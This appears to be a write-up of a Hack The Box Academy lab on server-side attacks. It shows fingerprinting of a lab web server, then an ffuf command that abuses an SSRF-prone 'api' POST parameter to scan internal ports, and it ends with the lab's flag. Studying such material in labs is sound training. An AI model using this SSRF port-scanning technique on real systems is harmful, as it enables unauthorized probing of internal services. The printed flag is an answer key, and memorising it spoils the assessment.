








# [Server-side Attacks](https://academy.hackthebox.com/module/details/145)

## Skills Assessment

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.
### Questions

#### Question #01

**Question**

Obtain the flag.

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-vxabqtaiej]─[~]
└──╼ [★]$ whatweb http://94.237.120.228:41049/

http://94.237.120.228:41049/ [200 OK] Apache[2.4.62], Country[FINLAND][FI], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[94.237.120.228], Modernizr[3.11.2.min], Open-Graph-Protocol, PoweredBy[lots], Script, Title[Rogue Pickings]
```







```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-vxabqtaiej]─[~]
└──╼ [★]$ seq 1 10000 > ports.txt
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-vxabqtaiej]─[~]
└──╼ [★]$ ffuf -w ./ports.txt -u http://94.237.120.228:41049/ -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ/index.php" -fr "Failed to connect to"

[SNIP]

80                      [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 3888ms]
3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 16ms]
❌

[SNIP]
```












**Answer**

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

---
---
